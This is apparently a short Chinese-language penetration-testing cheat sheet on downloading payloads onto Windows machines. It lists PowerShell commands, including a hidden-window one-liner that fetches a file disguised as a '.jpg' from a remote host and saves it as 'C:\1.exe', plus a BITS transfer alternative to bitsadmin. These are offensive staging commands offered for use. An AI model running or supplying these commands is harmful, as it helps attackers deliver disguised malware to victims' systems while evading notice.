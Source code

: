 ```yaml
---
layout: post
title: Pentest Note / CheatSheet
---
```


## Windows下载执行

### Powershell

在某些低权限情况下只能使用这个命令，使用`-UseBasicParsing`避免调用IE解析DOM

`Invoke-WebRequest -Uri $url -OutFile $outfile -UseBasicParsing`

`powershell -w hidden -c (new-object System.Net.WebClient).Downloadfile('http://example.com/1.jpg','C:\1.exe')`

替代bitsadmin

`Start-BitsTransfer -Source $file -Destination C:\1.exe –Asynchronous`
